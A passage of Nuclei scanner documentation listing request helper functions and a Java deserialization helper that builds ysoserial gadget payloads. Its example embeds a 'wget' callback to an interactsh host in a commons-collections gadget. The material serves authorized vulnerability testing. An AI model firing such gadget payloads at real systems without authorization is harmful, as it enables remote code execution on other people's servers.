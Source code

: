 #### Helper functions

Here is the list of all supported helper functions can be used in the RAW requests / Network requests.

| Helper function         | Description                                                                                                                                | Example                                                |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------ |
| len                     | Length of a string                                                                                                                         | len("Hello")                                           |
| toupper                 | String to uppercase                                                                                                                        | toupper("Hello")                                       |
| tolower                 | String to lowercase                                                                                                                        | tolower("Hello")                                       |
| replace                 | Replace string parts                                                                                                                       | replace("Hello", "He", "Ha")                           |
| replace_regex           | Replace string parts with regex                                                                                                            | replace_regex("test", "regextomach", "replacewith")    |
| trim                    | Remove trailing unicode chars                                                                                                              | trim("aaaHelloddd", "ad")                              |
| trimleft                | Remove unicode chars from left                                                                                                             | trimleft("aaaHelloddd", "ad")                          |
| trimright               | Remove unicode chars from right                                                                                                            | trimleft("aaaHelloddd", "ad")                          |
| trimspace               | Remove trailing spaces                                                                                                                     | trimspace("  Hello  ")                                 |
| trimprefix              | Trim specified prefix                                                                                                                      | trimprefix("aaHelloaa", "aa")                          |
| trimsuffix              | Trim specified suffix                                                                                                                      | trimsuffix("aaHelloaa", "aa")                          |
| reverse                 | Reverse the string                                                                                                                         | reverse("ab")                                          |
| base64                  | Encode string to base64                                                                                                                    | base64("Hello")                                        |
| base64_py               | Encode string to base64 like python (with new lines)                                                                                       | base64_py("Hello")                                     |
| base64_decode           | Decode string from base64                                                                                                                  | base64_decode("SGVsbG8=")                              |
| url_encode              | URL encode a string                                                                                                                        | url_encode("hxxps://projectdiscovery.io/test?a=1")     |
| url_decode              | URL decode a string                                                                                                                        | url_decode("https:%2F%2Fprojectdiscovery.io%3Ftest=1") |
| hex_encode              | Hex encode a string                                                                                                                        | hex_encode("aa")                                       |
| hex_decode              | Hex decode a string                                                                                                                        | hex_decode("6161")                                     |
| html_escape             | HTML escape a string                                                                                                                       | html_escape("<body>test</body>")                       |
| html_unescape           | HTML unescape a string                                                                                                                     | html_unescape("&lt;body&gt;test&lt;/body&gt;")         |
| md5                     | Calculate md5 of string                                                                                                                    | md5("Hello")                                           |
| sha256                  | Calculate sha256 of string                                                                                                                 | sha256("Hello")                                        |
| sha1                    | Calculate sha1 of string                                                                                                                   | sha1("Hello")                                          |
| mmh3                    | Calculate mmh3 of string                                                                                                                   | mmh3("Hello")                                          |
| contains                | Verify if a string contains another one                                                                                                    | contains("Hello", "lo")                                |
| regex                   | Verify a regex versus a string                                                                                                             | regex("H([a-z]+)o", "Hello")                           |
| rand_char               | Pick a random char among charset (optional, default letters and numbers) avoiding badchars (optional, default empty)                       | rand_char("charset", "badchars")                       |   
| rand_char               | Pick a random sequence of length l among charset (optional, default to letters and numbers) avoiding badchars (optional, default empty)    | rand_base(l, "charset", "badchars")                    |
| rand_text_alphanumeric  | Pick a random sequence of length l among letters and numbers avoiding badchars (optional)                                                  | rand_text_alphanumeric(l, "badchars")                  |
| rand_text_alpha         | Pick a random sequence of length l among letters avoiding badchars                                                                         | rand_text_alpha(l, "charset")                          |
| rand_text_numeric       | Pick a random sequence of length l among numbers avoiding badchars                                                                         | rand_text_numeric(l, "charset")                        |
| rand_int                | Pick a random integer between min and max                                                                                                  | rand_int(min, max)                                     |
| waitfor                 | block the logic execution for x seconds                                                                                                    | waitfor(10)                                            |


#### Deserialization helper functions

Nuclei allows payload generation for a few commom gadget from [ysoserial](https://github.com/frohoff/ysoserial).

**Supported Payload:**

- dns (URLDNS)
- commons-collections3.1
- commons-collections4.0
- jdk7u21
- jdk8u20
- groovy1

**Supported encodings:**

- base64 (default)
- gzip-base64
- gzip
- hex
- raw

**Deserialization helper function format:**

```sh
{{generate_java_gadget(payload, cmd, encoding}}
```

**Deserialization helper function example:**

```sh
{{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
```





